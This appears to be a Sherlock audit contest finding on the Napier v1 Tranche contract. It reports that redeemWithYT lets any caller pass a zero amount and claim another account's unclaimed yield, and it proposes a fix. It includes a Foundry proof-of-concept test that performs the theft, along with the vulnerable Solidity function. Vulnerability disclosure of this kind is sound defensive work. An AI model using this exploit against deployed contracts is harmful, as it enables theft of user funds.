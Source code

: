 Uneven Coffee Griffin

high

# An attacker can steal `unclaimedYield` from any account in the `Tranche`.

## Summary

Calls to [`redeemWithYT(address,address,uint256)`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L246C14-L246C70) do not implement sufficient access control, enabling arbitrary callers to steal unclaimed yield.

## Vulnerability Detail

The [`redeemWithYT(address,address,uint256)`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L246C14-L246C70) function assumes that callers with insufficient spend allowance will not be able to redeem unclaimed yield due to the requirement that they burn shares upon redemption:

```solidity
// Burn PT and YT tokens from `from`
_burnFrom(from, pyAmount);
_yt.burnFrom(from, msg.sender, pyAmount);
```

However, an attacker can bypass these checks by merely stating they wish to burn `0` shares, permitting them to claim all [`accruedInTarget`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L248) from any account.

As a demonstration, add the following PoC to [`Tranche.t.sol`](https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/test/unit/Tranche.t.sol):

```solidity
function testSherlock() public virtual {

  /* setup */
  tranche.issue(address(this), 100 * ONE_SCALE);

  _simulateScaleIncrease();

  vm.prank(address(yt));
    tranche.updateUnclaimedYield(address(this), user, 10 * ONE_SCALE);

  /// @dev Assert that `address(this)` has unclaimed yield:
  assertEq(tranche.unclaimedYields(address(this)), 27499999);

  /// @dev Declare an `attacker` with `0` `underlying`:
  address attacker = address(0x420);
  assertEq(underlying.balanceOf(attacker), 0) /* assert_uninitialized */;

  /// @dev As the attacker, attempt to redeem with `0` `pyAmount`:
  vm.prank(attacker);
    tranche.redeemWithYT(address(this), attacker, 0);

  /// @dev Assert the balance has been stolen.
  assertEq(tranche.unclaimedYields(address(this)), 0);
  assertEq(underlying.balanceOf(attacker), 49499998);

}
```

This shows an arbitrary attacker can steal funds from any unsuspecting account in the [`Tranche`](https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/Tranche.sol) in possession of non-zero `unclaimedYield`.


It should also be noted that even callers with limited spend approvals may withdraw `unclaimedYield` vastly in excess of their approved amount.

## Impact

Since it is highly probable an attacker will steal user funds with little setup complexity, this should be considered a high severity issue.

## Code Snippet

```solidity
/// @inheritdoc ITranche
/// @notice Withdraws underlying tokens from the caller in exchange for `amount` of PT and YT.
/// 1 PT + 1 YT = 1 Target token (e.g. 1 wstETH). This equation is always true
/// because PT represents the principal amount of the Target token and YT represents the yield of the Target token.
/// Basically, anyone can burn `x` PT and `x` YT to withdraw `x` Target tokens anytime.
///
/// Withdrawn amount will be the sum of the following:
/// - amount derived from PT + YT burn
/// - amount of unclaimed yield
/// - amount of accrued yield from the last time when the YT balance was updated to now
/// @notice If the caller is not `from`, `from` must have approved the caller to spend `pyAmount` for PT and YT prior to calling this function.
/// @dev Reverts if the caller does not have enough PT and YT.
/// @param from The owner of PT and YT.
/// @param to The recipient of the redeemed underlying tokens.
/// @param pyAmount The amount of principal token (and yield token) to redeem in units of underlying tokens.
/// @return (uint256) The amount of underlying tokens redeemed.
function redeemWithYT(address from, address to, uint256 pyAmount) external nonReentrant returns (uint256) {
    uint256 _lscale = lscales[from];
    uint256 accruedInTarget = unclaimedYields[from];

    // Calculate the accrued interest in Target token
    // The lscale should not be 0 because the user should have some YT balance
    if (_lscale == 0) revert NoAccruedYield();

    GlobalScales memory _gscales = gscales;
    _updateGlobalScalesCache(_gscales);

    // Compute the accrued yield from the time when the YT balance is updated last to now
    // The accrued yield in units of target is computed as:
    // Formula: yield = ytBalance * (1/lscale - 1/maxscale)
    // Sum up the accrued yield, plus the unclaimed yield from the last time to now
    accruedInTarget += _computeAccruedInterestInTarget(
        _gscales.maxscale,
        _lscale,
        // Use yt balance instead of `pyAmount`
        // because we'll update the user's lscale to the current maxscale after this line
        // regardless of whether the user redeems all of their yt or not.
        // Otherwise, the user will lose some accrued yield from the last time to now.
        _yt.balanceOf(from)
    );
    // Compute shares equivalent to the amount of principal token to redeem
    uint256 sharesRedeemed = pyAmount.divWadDown(_gscales.maxscale);

    // Update the local scale and accrued yield of `from`
    lscales[from] = _gscales.maxscale;
    delete unclaimedYields[from];
    gscales = _gscales;

    // Burn PT and YT tokens from `from`
    _burnFrom(from, pyAmount);
    _yt.burnFrom(from, msg.sender, pyAmount);

    // Withdraw underlying tokens from the adapter and transfer them to the user
    _target.safeTransfer(address(adapter), sharesRedeemed + accruedInTarget);
    (uint256 amountWithdrawn, ) = adapter.prefundedRedeem(to);

    emit RedeemWithYT(from, to, amountWithdrawn);
    return amountWithdrawn;
}
```

## Tool used

Foundry

## Recommendation

Firstly, to ensure the appropriate access control mechanisms, ensure that calls to [`redeemWithYT(address,address,uint256)`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L246C14-L246C70) burn at least a single unit of `pyAmount`:

### 📄 [Tranche.sol](https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/Tranche.sol)

```diff
+ require(pyAmount != 0, "INSUFFICIENT_PY_AMOUNT");
+
 // Burn PT and YT tokens from `from`
_burnFrom(from, pyAmount);
_yt.burnFrom(from, msg.sender, pyAmount);
```

Secondly, it appears that even trusted callers with limited token approvals (i.e. `1 wei`) are permitted to withdraw all [`accruedInTarget`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L248) yield. It is advised that callers may only redeem [`accruedInTarget`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L248) in proportion to the redeemed amount of tokens, instead of the entire balance.